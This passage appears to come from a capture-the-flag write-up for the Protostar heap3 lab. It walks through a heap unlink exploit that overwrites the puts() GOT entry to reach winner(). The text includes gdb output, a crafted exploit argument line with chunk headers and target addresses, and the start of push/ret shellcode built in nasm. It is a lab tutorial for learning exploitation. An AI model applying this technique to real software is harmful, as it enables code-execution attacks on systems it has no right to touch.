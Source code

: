 ```shell
0804b114 R_386_JUMP_SLOT   memcpy
0804b118 R_386_JUMP_SLOT   strcpy
0804b11c R_386_JUMP_SLOT   printf
0804b120 R_386_JUMP_SLOT   fprintf
0804b124 R_386_JUMP_SLOT   time
0804b128 R_386_JUMP_SLOT   puts
0804b12c R_386_JUMP_SLOT   munmap
```

This means that we want to write `\x1c\xb1\x04\x08` to `fd`. Remember, we have
to subtract 12 bytes from the memory address that we want to write to.

Next, we get the memory address of the `winner()` function which is
`0x8048864`.

```
(gdb) print &winner
$1 = (void (*)(void)) 0x8048864 <winner>
```

We attempt to write that address directly to `the GOT entry of puts()`.

```shell
user@protostar:~$ gdb --args /opt/protostar/bin/heap3 `python -c "print 'AAAA'"` `python -c "print 'A' * 32 + '\xfc\xff\xff\xff' + '\xfc\xff\xff\xff' + 'A' * 4 + '\x1c\xb1\x04\x08\x64\x88\x04\x08'"` DDD

(gdb) run
Starting program: /opt/protostar/bin/heap3 AAAA AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA DDD

Program received signal SIGSEGV, Segmentation fault.
0x08049906 in free (mem=0x804c058) at common/malloc.c:3638
3638    common/malloc.c: No such file or directory.
        in common/malloc.c

(gdb) p $_siginfo._sifields._sigfault.si_addr
$5 = (void *) 0x804886c
```

We see that it segfaults as it attempts to write to `0x804886c`. This is due to
second step in the unlink process.

We need to change our input so that `P->bk + 8` lands somewhere in a writable
memory address space. What we can do is overwrite the `puts()` GOT entry with
a location on the heap that contains some shellcode to jump to `winner()`.

To obtain our shellcode, we use `nasm_shell` to generate a
`push 0x8048864; ret` instruction.

```shell
nasm > push 0x08048864
00000000  6864880408        push dword 0x8048864
nasm > ret
00000000  C3                ret
```
